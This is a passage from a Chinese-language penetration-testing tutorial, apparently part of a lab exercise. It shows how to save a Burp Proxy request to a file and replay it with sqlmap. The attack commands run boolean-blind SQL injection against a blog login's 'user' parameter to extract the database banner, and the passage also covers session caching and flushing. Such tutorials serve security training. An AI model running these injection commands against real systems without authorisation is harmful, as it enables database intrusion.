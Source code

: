 数据库相同，所以将不会处理更多重复的事。

URLs，GET消息，POST消息和头部字段，在命令行中书写太长了。

所以我们可以直接导出Burp Proxy拦截的请求，保存到文件中，在sqlmap中使用。

为了做到这一点，在Burp中，`Proxy`->右键`Copy to file`。将文件保存到root家目录，命名为bloglogin.req。返回终端，可以使用保存的请求：

sqlmap会执行和之前相同的请求，而不需要很长的命令行。
```
sqlmap -r /root/bloglogin.req -p user --technique=B --banner
```

你是否注意到，命令执行的特别快。`-v3`：详细地检查做了什么。

```
sqlmap -r /root/bloglogin.req -p user --technique=B --banner -v3
```

在DEBUG INFO中，执行了0个查询，因为banner是我们已经有的信息。

```
[DEBUG] performed 0 queries in 0.00 seconds
```

事实上，sqlmap存储目标的信息。

```
ls /usr/share/sqlmap/output/sqlmap.test/

dump log session.sqlite target.txt
```

如果你需要重新运行测试，或者只是重新开始，可以刷新session：`--flush-session`。这一次，sqlmap执行了100多次请求来获取banner。

```
sqlmap -r /root/bloglogin.req -p user --technique=B --banner -v3 --flush-session

[DEBUG] performed 119 queries in 1.26 seconds
```
